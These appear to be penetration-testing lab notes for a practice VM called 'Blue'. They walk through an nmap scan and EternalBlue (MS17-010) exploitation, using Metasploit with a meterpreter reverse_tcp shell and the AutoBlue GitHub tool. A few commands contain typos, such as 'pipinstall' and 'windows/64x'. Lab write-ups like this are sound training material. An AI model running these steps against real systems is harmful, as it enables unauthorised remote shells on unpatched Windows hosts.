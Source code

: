 Old Cap Playlist: https://www.youtube.com/watch?v=JZN3JhoAdWo&list=PLLKT__MCUeiyxF54dBIkzEXT7h8NgqQUB

Required Cap: https://drive.google.com/drive/folders/1VXEuyySgzsSo-MYmyCareTnJ5rAeVKeH

# Observations

## Blue
**VM setup >> login and get IP**
`192.168.138.135`

Start with NMAP scan
```bash
nmap -p- -A -T4 192.168.138.135
```
**What is juicy:**
 - SMB 139, 445
 - OS information
 - SMB 445 version >> Win7 ultimate 7601 Service Pack 1
 - may need to use SMB enum tools if stuck
 - research in google >> eternal blue looks juicy for initial foothold

**Metasploit - automated method**
```shell
msfconsole
search eternalblue
use 1 #scan for RCE
options #check details
set rhosts 192.168.138.135
run #shows likely vuln

search eternalblue
use 3 #4 is win8, 5 is pshell -- 3 is easiest
options #check details
set rhosts 192.168.138.135
check #checks RHOST IP for vuln

#can set payload to 32 or 64 bit if you know the architecture of target
set payload windows/64x/meterpreter/reverse_tcp #can use auto-complete tab after windows > set meterpreter and reverse_tcp

options #check details > look at lhost this time
set lhost eth0 #put in attacker IP or interface
run #may not work right away, might need to run a few times
```

**Manual Method**
Start research in google for RCE
- eternalblue github >> look for best repos
	- https://github.com/3ndG4me/AutoBlue-MS17-010

**Setup in Kali**
```bash
cd /opt/
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git #code from github
cd AutoBlue-MS17-010/ #change to autoblue directory

#follow github for install instructions
pipinstall -r requirements.txt

#run checker to see vuln
run python eternal_checker.py <TARGET-IP> #if vuln: can take screenshot and use as evidence, especially if exploit will take down machine - get permission 1st
```
